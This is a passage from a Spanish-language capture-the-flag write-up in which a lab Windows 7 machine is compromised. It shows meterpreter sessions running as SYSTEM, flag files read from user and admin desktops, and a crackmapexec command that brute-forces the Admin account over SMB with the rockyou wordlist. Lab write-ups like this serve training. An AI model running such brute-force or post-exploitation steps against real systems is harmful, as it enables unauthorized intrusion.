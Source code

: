 Con esto hemos comprometido la máquina víctima y somos el **usuario NT Authority**:
```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MICROCHOFT
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```
Y ya solo buscamos las flags.

Flag del usuario:
```bash
meterpreter > C:\Users\Lola\Desktop
meterpreter > ls
Listing: C:\Users\Lola\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2024-03-28 10:52:53 -0600  desktop.ini
100666/rw-rw-rw-  32    fil   2024-03-28 10:54:50 -0600  user.txt

meterpreter > cat user.txt
...
```

Flag del administrador:
```bash
meterpreter > C:\Users\Admin\Desktop
meterpreter > ls
Listing: C:\Users\Admin\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2024-03-28 10:51:45 -0600  admin.txt.txt
100666/rw-rw-rw-  282   fil   2024-03-28 10:36:15 -0600  desktop.ini

meterpreter > cat admin.txt.txt
...
```
Pero aún podemos hacer una que otra cosilla.

<h2 id="Crackmapexec">Aplicando Fuerza Bruta a Servicio SMB con crackmapexec</h2>

Si bien, pudimos haber usado **hydra** para aplicar fuerza bruta, también podemos hacerlo con **crackmapexec**.

Podemos indicarle a **crackmapexec** que aplique fuerza bruta a un usuario que conozcamos, por ejemplo, al **usuario Admin**:
```bash
crackmapexec smb 192.168.1.10 -u 'Admin' -p /usr/share/wordlists/rockyou.txt
```
